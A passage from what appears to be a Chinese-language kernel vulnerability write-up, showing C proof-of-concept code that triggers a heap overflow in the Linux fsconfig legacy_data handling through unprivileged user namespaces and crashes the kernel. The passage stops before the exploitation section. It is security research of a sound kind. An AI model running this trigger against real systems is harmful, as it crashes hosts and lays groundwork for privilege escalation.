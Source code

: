 ```

int fsconfig(int fsfd, unsigned int cmd, 
             const char *key, const void *val, int aux)
{
    return syscall(__NR_fsconfig, fsfd, cmd, key, val, aux);
}

void errExit(char *msg)
{
    printf("\033[31m\033[1m[x] Error: %s\033[0m\n", msg);
    exit(EXIT_FAILURE);
}

int main(int argc, char **argv, char **envp)
{
    int fs_fd;

    /* create new namespace to get CAP_SYS_ADMIN */
    unshare(CLONE_NEWNS | CLONE_NEWUSER);

    /* get a filesystem context */
    fs_fd = fsopen("ext4", 0);
    if (fs_fd < 0) {
        errExit("FAILED to fsopen()!");
    }

    /**
     * fulfill the ctx->legacy_data to 4095 bytes, 
     * so that the (PAGE_SIZE - 2 - size) overflow
     */
    for (int i = 0; i < 255; i++) {
        fsconfig(fs_fd, FSCONFIG_SET_STRING, "arttnba", "arttnba", 0);
    }
    fsconfig(fs_fd, FSCONFIG_SET_STRING, "arttnba3", "pwnnn", 0);

    /* make an oob-write by fsconfig */
    for (int i = 0; i < 0x4000; i++) {
        fsconfig(fs_fd, FSCONFIG_SET_STRING, "arttnba3", "arttnba3", 0);
    }

    return 0;
}

```

运行，成功通过堆溢出造成 kernel panic：

![](https://s2.loli.net/2023/01/08/KmX1LNFrDQPpd9u.png)

0x02. 漏洞利用
==========
